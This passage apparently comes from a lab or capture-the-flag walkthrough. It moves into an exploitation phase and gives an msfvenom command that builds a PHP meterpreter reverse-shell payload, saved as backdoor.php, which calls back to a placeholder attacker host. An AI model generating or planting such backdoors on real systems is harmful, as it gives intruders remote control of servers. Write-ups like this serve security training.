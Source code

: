 ![Config](picture22.png)

![Config](picture23.png)

Now to begin our exploitation phase. Hehe....

## Gaining User Access
We saw that the files generated for the first website is in a php format, therefore lets use msfvenom to create our payload.

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<HOST_IP> LPORT=<HOST_PORT> -f raw -o backdoor.php
```
